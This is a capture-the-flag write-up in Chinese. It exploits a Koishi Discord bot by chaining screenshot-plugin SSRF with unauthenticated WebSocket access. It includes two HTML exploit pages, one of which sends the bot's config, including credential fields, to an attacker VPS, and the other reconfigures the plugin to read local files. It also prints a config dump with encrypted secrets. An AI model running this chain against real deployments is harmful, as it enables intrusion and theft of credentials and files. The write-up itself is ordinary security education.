## 514

> JOIN:https://discord.gg/cdMsekjUt,talk to koishi and read flag which was hidden somewhere deep in the system~
>
> **ATTENTION**:Koishi will refresh herself every **10s**. If needed, please test locally first before accessing through the bot. **Do not** send messages to the bot at a high frequency, and do not attempt to do anything beyond ethical boundaries, thx~

出题人有话说：pjsk插件真的只是给各位师傅玩的哇怎么也有洞QAQ以后涉及到pptr的插件还是留点心吧

加入频道后可以和Koishi bot私聊，输入help会显示支持的bot指令



有shot插件可以对网页截图



信息收集到该bot为[koishi](https://koishi.chat/)，本地使用docker快速搭建https://koishi.chat/zh-CN/manual/starter/docker.html环境，并安装screenshot插件、打开puppeteer。

尝试shot访问本地默认端口截图koishi后台，注意到未开启auth插件（若开启则侧边栏应当只有首页，左下角应当有登录标志）



注意到koishi的console和server之间的通信都是借助WebSocket的，在burpsuite的Proxy - WebSockets Hiistory中能捕获到相关的通信数据。

对于shot插件默认是只允许http和https协议，当然，如果加上file浏览器也可以通过file协议访问本地文件



捕获一个新增file协议的请求包



对于该请求中，args的第二个元素为插件名加上唯一id，这个id是随机的，在插件安装时就确定下来了写在配置文件当中，因此我们需要获取到远程环境的id



查找历史数据，在s->c的数据帧中，有这么个包（下述bot token已过期），其中body.value.plugins中就包含了我们需要的id

```json
{
    "type": "data",
    "body": {
        "key": "config",
        "value": {
            "plugins": {
                "group:server": {
                    "server:yrt4za": {
                        "port": 5140,
                        "maxPort": 5149,
                        "host": "0.0.0.0"
                    },
                    "~server-satori:4a5c8c": {},
                    "~server-temp:in16cp": {}
                },
                "group:basic": {
                    "~admin:tnisa7": {},
                    "~bind:07uqcj": {},
                    "commands:fcfz9r": {},
                    "help:tj2694": {},
                    "http:c3980a": {},
                    "~inspect:bep4w8": {},
                    "locales:10cpca": {},
                    "rate-limit:9enlml": {}
                },
                "group:console": {
                    "actions:12nvqa": {},
                    "analytics:j8afpj": {},
                    "~auth:hfi7d9": {
                        "admin": {
                            "password": "passNPYRAZTlWuW+Yx/8ZAVNXQ==",
                            "username": "potatowo",
                            "hint": "no need to login~"
                        }
                    },
                    "config:ab6k8s": {},
                    "console:n2unsp": {
                        "open": false
                    },
                    "insight:blbpmd": {},
                    "notifier:fjhc7z": {},
                    "oobe:pblvay": {},
                    "~sandbox:a8395u": {},
                    "status:mgd9ai": {},
                    "theme-vanilla:zw7dvu": {}
                },
                "group:storage": {
                    "~database-mongo:e4iopx": {
                        "database": "koishi"
                    },
                    "~database-mysql:sqfsc4": {
                        "database": "koishi"
                    },
                    "~database-postgres:yixoph": {
                        "database": "koishi"
                    },
                    "database-sqlite:l9px0e": {
                        "path": "data/koishi.db"
                    },
                    "assets-local:9psdxd": {}
                },
                "group:adapter": {
                    "~adapter-dingtalk:nt9ml6": {},
                    "adapter-discord:cm64td": {
                        "token": "xYmaPePXtVsUQWGY74db1t4iq1Ojqas8xJjIkQHxiFYx7Oi8GrwOxqegcRbERkLuN9i5d1hbJAMzc2UVZkzsq8jsJ8EPl+VunX5qCM9cVhyZqB3F5W+cuvfdc4XZOWowrrFaIg/ofYJw9uPENah7/Q==3WD1TcLcp2eo4Sy4u/T4wg==",
                        "intents": [
                            "DIRECT_MESSAGES"
                        ]
                    },
                    "~adapter-kook:x2laqr": {},
                    "~adapter-lark:93xiqh": {},
                    "~adapter-line:zwdbcy": {},
                    "~adapter-mail:1yn601": {},
                    "~adapter-matrix:ptr0p2": {},
                    "~adapter-qq:zte6li": {},
                    "~adapter-satori:wqcyyw": {},
                    "~adapter-slack:sfujrd": {},
                    "~adapter-telegram:lffgys": {},
                    "~adapter-wechat-official:k7ypgi": {},
                    "~adapter-wecom:2lxd3k": {},
                    "~adapter-whatsapp:k4wpu1": {},
                    "~adapter-zulip:gdig38": {}
                },
                "puppeteer:3ptqit": {
                    "args": [
                        "--no-sandbox"
                    ]
                },
                "~proxy-agent:lnp0kr": {
                    "proxyAgent": ""
                },
                "screenshot:lsan28": {},
                "echo:3vpv5r": {},
                "pjsk-pptr:gn8skz": {}
            },
            "i18n": {
                "locales": [
                    "en-US",
                    "zh-CN",
                    "fr-FR",
                    "ja-JP",
                    "de-DE",
                    "ru-RU"
                ]
            }
        }
    }
}
```

Websocket是不受同源策略限制的，安全性完全由服务端负责。而很刚好的，koishi的服务端并没有校验来源

将下述文件保存为2.html并放在vps：

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8" />
  <style>
    body { font-family: sans-serif; background: #f8f8f8; padding: 20px; }
    #log { background: #fff; border: 1px solid #ddd; border-radius: 8px; padding: 10px; height: 300px; overflow-y: auto; white-space: pre-wrap; }
  </style>
</head>
<body>
  <div id="log"></div>

<script>
  const logBox = document.getElementById('log');
  function log(message) {
    const t = new Date().toLocaleTimeString();
    logBox.textContent += `[${t}] ${message}\n`;
    logBox.scrollTop = logBox.scrollHeight;
  }

  const wsUrl = "ws://127.0.0.1:5140/status";
  const ws = new WebSocket(wsUrl);

  ws.onopen = () => log(`✅ 已连接到 WebSocket: ${wsUrl}`);
  ws.onclose = () => log(`❌ WebSocket 已关闭`);
  ws.onerror = (e) => log(`⚠️ WebSocket 错误: ${e.message || e}`);

  ws.onmessage = async (event) => {
    const raw = event.data;

    let json;
    try {
      json = JSON.parse(raw);
    } catch (e) {
      log("⚠️ 收到的消息不是合法 JSON，已忽略");
      return;
    }
    if (!(json.type === "data" && json.body?.key === "config")) {
      log("⏭️ 不符合条件的消息，已忽略");
      return;
    }

    const targetUrl = `http://your_vps_ip:7891/?data=${encodeURIComponent(raw)}`;

    try {
      const response = await fetch(targetUrl, { method: "GET" });
      log(`➡️ 已通过 HTTP 推送到: ${targetUrl} (状态: ${response.status})`);
    } catch (err) {
      log(`❌ 推送失败: ${err.message}`);
    }
  };
</script>

</body>
</html>
```

让koishi访问



并在vps的7891端口接收到数据



解码后即可获取远端对应的id



获得到screenshot对应的id后，将下述代码保存为1.html，同样放在vps上，作用是开启file协议

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>WebSocket 自动测试</title>
</head>
<body>
  <pre id="log"></pre>

  <script>
    const log = msg => {
      const pre = document.getElementById('log');
      pre.textContent += msg + '\n';
    };

    // WebSocket URL
    const wsUrl = 'ws://localhost:5140/status';
    // 要发送的 JSON 消息
    const msg = {
      "id": "anyid",
      "type": "manager/reload",
      "args": ["", "screenshot:lsan28", {"protocols":["http","https","file"]}]
    };

    log('页面加载，准备连接 WebSocket...');

    // 创建 WebSocket 并自动发送消息
    const ws = new WebSocket(wsUrl);

    ws.onopen = () => {
      log('WebSocket 已连接');
      // 自动发送消息
      ws.send(JSON.stringify(msg));
      log('已自动发送消息: ' + JSON.stringify(msg));
    };

    ws.onmessage = e => {
      log('收到消息: ' + e.data);
    };

    ws.onclose = e => {
      log(`连接关闭，代码: ${e.code}, 原因: ${e.reason}`);
    };

    ws.onerror = e => {
      log('WebSocket 错误，请检查服务器是否支持 WS 或端口是否正确');
    };
  </script>
</body>
</html>

```

由于远程10秒刷新一次配置，因此需要让bot访问完随即访问file:///flag



成功获取到flag



其他漏洞如pjsk插件中的js渲染各位师傅有兴趣也可以看看，这里就不做赘述了

